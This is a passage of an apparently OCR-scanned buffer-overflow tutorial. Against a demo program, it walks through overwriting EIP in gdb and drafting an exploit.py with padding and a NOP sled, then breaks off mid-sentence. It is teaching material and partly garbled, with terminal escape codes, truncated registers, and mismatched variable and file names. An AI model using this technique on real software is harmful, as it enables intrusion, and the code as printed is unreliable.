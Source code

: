 ```
run
Starting program: /demo/func
Enter a string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```
```
Program received signal SIGSEGV, Segmentation fault.
[2J[H[----------------------------------registers-----------------------------------]
[mEAX: 0xffffeddf
```

```
EBX: 0x
ECX: 0xfbad
EDX: 0x
ESI: 0x
EDI: 0xf7fb8000 --> 0x1b3db
EIP: 0x42424242 ('BBBB')
```
We can now take this input string and begin crafting our exploit code.

/tmp/exploit.py

```
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
```
EIP = "BBBB"
```
```
nop = '\x90' * 5
```
```
print(buffer + eip + nop)
```
We added a nop sled here so that when the program crashes next time, we can look on the stack
and ensure that our 5 nop’s were added.

Let’s run this in gdb to test it out.

```
run <<< $(python demo_attack.py)
Starting program: /demo/func <<< $(python /tmp/exploit.py)
Enter a string:
```
```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
[mEAX: 0xffffdbbe ('A' <repeats 58 times>,
"\374\333\377\377\220\220\220\220\220\220\220\220\220\220")
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad
EDX: 0xf7fb987c --> 0x
ESI: 0x
EDI: 0xf7fb8000 --> 0x1b3db
EBP: 0xffffdbfc --> 0x
ESP: 0xffffdc00 --> 0x
EIP: 0x
[mEFLAGS: 0x10282 (carry parity adjust zero 1;31mSIGN trap 1;31mINTERRUPT direction
overflow)
[m[-------------------------------------code-------------------------------------]
31mInvalid $PC address: 0x
[m[------------------------------------stack-------------------------------------]
[m0000| 0xffffdc00 --> 0x
```
We redirected the output of our exploit.py into the target binary, received a seg fault, and

